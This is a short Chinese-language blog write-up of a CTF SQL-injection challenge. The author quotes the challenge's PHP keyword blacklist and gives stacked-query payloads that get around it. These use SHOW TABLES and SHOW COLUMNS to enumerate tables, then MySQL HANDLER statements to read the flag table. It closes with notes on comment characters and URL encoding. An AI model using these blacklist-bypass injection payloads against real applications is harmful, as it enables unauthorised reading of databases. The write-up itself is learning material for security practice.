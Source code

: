 ​		重启CTF刷题第一道=。=，每周刷几道题，稍微简单随意的学一点安全知识，期待以后有机会从事安全行业……

​		这道题基本上是看题解做的，随便记录点东西。

​		输入1、2正常回显，3及以上的数字没有回显。

​		输入select会发现黑名单：

```php
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

​		然后看别人经验，可以用show查表。

```
1';show tables;#
1';show columns from flaghere;#
```

​		这里的flaghere必须用给出的格式，不能不区分大小写。原因吗？可能是后台经过PHP，被处理过一次，所以数据库不认？我也不是很明白=。=

​		总之发现表了之后，然后可以学习别人的技巧，就是使用Mysql特有的Handler查表方式，下面我学习一下，然后记录点内容。



​		handler是mysql专有的语句，并没有被包含到sql标准内。handler提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB。

​		似乎类似于编程语言打开文件的方式啊，先用handler指定表名打开，然后按行读取，最后再关闭。	

```
HANDLER tbl_name OPEN;
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name close;
```

​		payload:

```
1';handler FlagHere open;handler FlagHere read first;
```

​		另外，关于sql注入中常见的三种注释，#，--和--+，之所以会有差异，是因为使用的时候会被转码。甚么意思呢？比如get请求时注入，会发现#和+号被url转义了，分别代表网页锚点和空格，因而都需要url转码后，在后端才能被解析成正确的内容。

​		具体怎样或者说细节如何，只能以后再看了。说不太清楚，因为我编码知识还没学清楚，以后再补，现在就先不挖了。